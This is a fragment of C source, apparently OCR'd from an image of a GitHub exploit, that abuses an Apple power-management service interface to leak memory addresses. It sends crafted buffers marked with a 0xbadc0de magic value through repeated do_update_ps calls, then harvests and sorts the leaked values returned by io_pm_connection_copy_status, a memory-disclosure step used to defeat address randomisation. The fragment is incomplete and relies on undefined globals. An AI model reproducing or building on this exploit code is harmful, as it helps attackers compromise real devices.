 ```c
        if (strstr(image_name, library_name)){
            //printf("[+] %s address 0x%llx \n",library_name,(uint64_t)image_load_address);
            return (uint64_t)image_load_address;
        }
    }
    return 0;
}
int comp_uint64(const void *a, const void *b)  {
    if(*((uint64_t *)a) > *((uint64_t *)b))  return(+1);
    if(*((uint64_t *)a) < *((uint64_t *)b))  return(-1);
    return(0);
}

uint64_t *collect_user_memory(int cnt)
{
    int psidCnt = 2,psid=-1;
    int ps[psidCnt];
    uint32_t magic = 0xbadc0de;
    uint32_t condidate = 0;
    int cncnt = cnt;
    uint32_t size = 0x2000;
    //uint32_t size = getpagesize();

    uint64_t *collect = calloc(cncnt+1,sizeof(uint64_t));
    uint8_t *pcum = do_dummy_allocate_p(size, 0xF0);

    *(uint64_t*)((uint8_t*)(pcum+0x1C))        = 0;             // address
    *(uint32_t*)((uint8_t*)(pcum+0x1C+24))     = 0x1000;       // size
    *(uint32_t*)((uint8_t*)(pcum+0x1C+24+4))   = magic;       // magic value in return value

    int iter = 100;
    for(int i=0;i<psidCnt;i++) {
        psid = -1;
        do_update_ps(service_port, &psid,iter,pcum,size);
        ps[i] = psid;
        //target_psid = psid; // we'll likely allocate 1 powersource object
    }

    int count = 0;
    for(int i=0; count < cncnt ; i++) {

        for(int i=0; i<psidCnt; i++)
            do_update_ps(service_port, &ps[i],iter,pcum,size);

        //do_update_ps(service_port, &target_psid,100,pcum,size);
        ret = -1;
        io_pm_connection_copy_status(service_port,0x10,&data,&cnt,&ret);
        //printf("iter(%d) : kr = %d ,offset = 0x%lx,cnt = %x,retval :%x \n",i,kr,data,cnt,ret);

        if ((ret != 0) && (ret != magic)) {
            if(ret & 0xf)
                continue;

            condidate = ret;
            collect[count++] = ret | 0x100000000;
            //printf("Collected  : 0x%llx\n",collect[count-1]);

        }

    }

    collect[cncnt] = 0xbadc0de; // delemiter
    qsort(collect,count,sizeof(uint64_t),comp_uint64);
```